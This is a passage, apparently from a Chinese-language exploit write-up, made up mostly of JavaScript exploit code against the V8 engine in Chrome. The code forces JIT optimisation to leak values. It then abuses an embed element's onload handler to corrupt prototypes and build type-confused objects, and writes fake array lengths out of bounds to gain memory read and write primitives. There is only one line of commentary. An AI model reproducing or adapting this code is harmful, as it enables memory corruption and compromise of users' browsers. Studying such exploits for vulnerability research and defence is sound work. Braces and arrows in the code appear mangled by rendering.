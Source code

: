 ```
`}`

%PrepareFunctionForOptimization(jit)
jit(object_1,0);
%OptimizeFunctionOnNextCall(jit);

var leak = jit(object_2,0xd);

elem = d2u(leak[0])[0];
elem2 = d2u(leak[1])[0];
const num = u2d(elem,0x4242);
num.prop = 1;
const num2 = u2d(elem2,0x4242);
num2.prop = 1;
```

num对应oob_array的length，num2对应elements的length，之后只需要将他们越界写入oob_array即可。

```
proto2 = `{``}`;

setPropertyViaEmbed2 = (object, value, handler) =&gt; `{`
const embed = document.createElement('embed');
embed.onload = handler;
embed.type = 'text/html';
Object.setPrototypeOf(proto2, embed);
document.body.appendChild(embed);
object.corrupted2 = value;
embed.remove();
`}`

createCorruptedPair2 = (value_1, value_2) =&gt; `{`
const object_3 = `{`
__proto__: proto2
`}`;
object_3.regular2 = 1;

setPropertyViaEmbed2(object_3, value_2, () =&gt; `{`
Object.setPrototypeOf(proto2, null);
object_3.corrupted2 = value_1;
`}`);

const object_4 = `{`
__proto__: proto2
`}`;
object_4.regular2 = 1;

setPropertyViaEmbed2(object_4, value_2, () =&gt; `{`
Object.setPrototypeOf(proto2, null);
object_4.corrupted2 = value_1;
object_3.regular2 = 1.1
`}`);
return [object_3, object_4];
`}`

const [object_3, object_4] = createCorruptedPair2(array, test);
//%DebugPrint(object_4.corrupted2);

jit22 = (object,index) =&gt; `{`
object.corrupted2[index] = num; //length
object.corrupted2[index-5] = num2; //elements的length
return object.corrupted2[index];
`}`

```